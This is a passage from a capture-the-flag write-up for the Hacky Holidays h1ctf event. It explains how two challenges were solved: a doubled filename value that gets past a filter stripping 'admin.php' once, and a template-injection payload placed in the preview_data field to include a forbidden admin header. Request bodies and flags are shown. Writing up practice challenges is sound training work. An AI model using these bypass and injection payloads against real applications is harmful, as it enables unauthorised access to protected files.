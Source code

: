 ``` 
So I prepared a value  secretadmsecretadmadmin.phpin.phpin.php which upon 1st check would leave secretadmsecretadmin.phpin.php & on second check would give us secretadmin.php

## Steps:
1. Go to https://hackyholidays.h1ctf.com/my-diary/?template=secretadmsecretadmadmin.phpin.phpin.php
2. We get flag as
{F1131268}

3. ~~Burned Grinch Diary~~

### flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}

# 7. Hate-Emails

Grinch now came back with a new app which would send hate emails to others he has a special header which only he could include thats what he thinks but he missed to protect the template data check as preview data was lacking check through which we included the header and accessed his mail secrets

On the url  https://hackyholidays.h1ctf.com/hate-mail-generator/ a quick directory search gave us /templates/ which had 3 entries 
```
cbdj3_grinch_header.html                                     20-Apr-2020 10:00                   -
cbdj3_grinch_footer.html                                     20-Apr-2020 10:00                   -
38dhs_admins_only_header.html                                21-Apr-2020 15:29                  46

```
out of which 38dhs_admins_only_header.html   was forbidden to access if we try to include that  in markdown  as {{template:38dhs_admins_only_header.html}}  this would also not work and give response as ```You do not have access to the file 38dhs_admins_only_header.html```  . The request body that was going contained

```
preview_markup=hIII{{template:cbdj3_grinch_header.html}} &preview_data={"name":"Alice","email":"alice@test.com"}
```

Since insertion was not possible directly in preview_markup i tried inserting admin header in preview_data as

```
preview_markup={{name}}&preview_data={"name":"{{template:38dhs_admins_only_header.html}}","email":"admin@test.com"}
```


##Steps:
1. Open the url https://hackyholidays.h1ctf.com/hate-mail-generator/new/  and click on preview
2. Now intercept the request and replace preview data with ``` preview_data={"name":"{{template:38dhs_admins_only_header.html}}```
3. We get our flag in response
{F1131285}
4. ~~Hate Mailing Down~~

### flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}


# 8. Grinch Forum
Grinch upon seeing his mistakes now decided to supersecure his new idea and built a forum for publishing his bad ideas but he was also clever enough to expose some secrets on github and burn himself again.

```
